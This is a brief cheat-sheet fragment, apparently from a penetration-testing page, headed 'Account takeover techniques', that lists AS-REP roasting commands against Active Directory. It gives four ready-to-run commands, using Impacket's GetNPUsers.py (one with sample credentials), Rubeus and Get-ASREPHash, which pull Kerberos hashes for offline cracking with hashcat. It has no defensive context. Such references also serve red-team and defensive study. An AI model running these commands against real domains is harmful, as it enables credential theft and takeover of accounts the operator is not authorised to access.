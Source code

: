 

Account takeover techniques

<b>ASREP-Roasting:</b>

Exploit technqiues:
<ol>
<li>python GetNPUsers.py CHANGEME.LOCAL/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast</li>
<li>python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast</li>
<li>.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]</li>
<li>Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)</li>
</ol>

